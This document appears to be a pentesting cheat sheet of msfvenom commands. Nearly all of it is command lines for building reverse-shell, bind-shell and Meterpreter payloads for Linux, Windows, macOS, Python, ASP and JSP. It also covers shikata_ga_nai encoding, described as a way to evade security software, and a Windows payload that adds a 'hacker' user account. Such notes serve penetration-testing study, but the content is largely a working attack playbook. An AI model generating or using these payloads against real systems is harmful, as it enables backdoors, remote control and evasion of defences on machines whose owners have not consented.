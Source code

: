 ### Payload commands
```
# List all payloads
msfvenom -l payloads
msfvenom -l payloads | grep Linux
msfvenom -l payloads | grep Windows

# List payload options
msfvenom -p PAYLOAD --list-options

# Payload Encoding
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP

# Choosing platform and the architecture
msfvenom -p PAYLOAD LHOST=<IP> LPORT=<PORT> --platform Linux -a x64 -f elf > shell.elf
```

#### shikata_ga_nai
It is an encoder used to avoid detection by security software. It's a polymorphic XOR additive feedback encoder, which means it changes the signature of the payload every time it's used.
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

#### Linux Payloads
`elf` stands for Executable and Linkable Format, which is typically used to target Linux or Unix-like systems.
```
# Reverse shell (x86 multi stage)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

# Bind shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > bind.elf

# SunOS (Solaris)
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```

#### Windows
```
# Meterpreter reverse shell: 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

# CMD Single Stage: 
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

# add user: 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

#### Apple
```
# Mac Reverse Shell: 
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho
```

#### Python
```
# Python Shell: 
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py
```

#### ASP and JSP
```
# Active Server Pages Meterpreter shell: 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp

# Java Server Pages Shell: 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp
```


